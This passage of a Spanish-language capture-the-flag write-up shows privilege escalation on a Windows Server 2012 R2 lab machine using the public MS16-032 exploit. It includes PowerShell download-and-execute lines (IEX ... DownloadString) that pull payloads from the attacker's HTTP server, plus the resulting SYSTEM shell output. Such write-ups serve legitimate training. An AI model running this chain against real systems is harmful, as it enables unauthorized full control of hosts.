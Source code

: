 ```bash
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Como podemos observar, el sistema presenta **Microsoft Windows Server 2012 R2 Standard 6.3.9600 N/A Build 9600**; por lo que buscando, encontramos un exploit público asociado a dicha versión de tecnología **MS16-032**. Ahora descargamos el archivo.

[MS16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

```bash
❯ wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
--2021-09-06 23:22:19--  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.111.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 13789 (13K) [text/plain]
Grabando a: «Invoke-MS16032.ps1»

Invoke-MS16032.ps1               100%[=========================================================>]  13.47K  --.-KB/s    en 0.001s  

2021-09-06 23:22:20 (9.04 MB/s) - «Invoke-MS16032.ps1» guardado [13789/13789]
```

Editamos el archivo descargado agregando al final la siguiente linea (cambiar el valor de **lhost** por nuestra IP de atacante):

```bash
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).DownloadString('http://<lhost>/PS.ps1')"
```

Nos compartimos un servidor HTTP con python y procedemos a ejecutar el siguiente comando para la obtención del archivo; así mismo, nos ponemos en escucha por el puerto 443:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [07/Sep/2021 00:05:48] "GET /Invoke-MS16032.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [07/Sep/2021 00:05:59] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\kostas\Desktop>
```
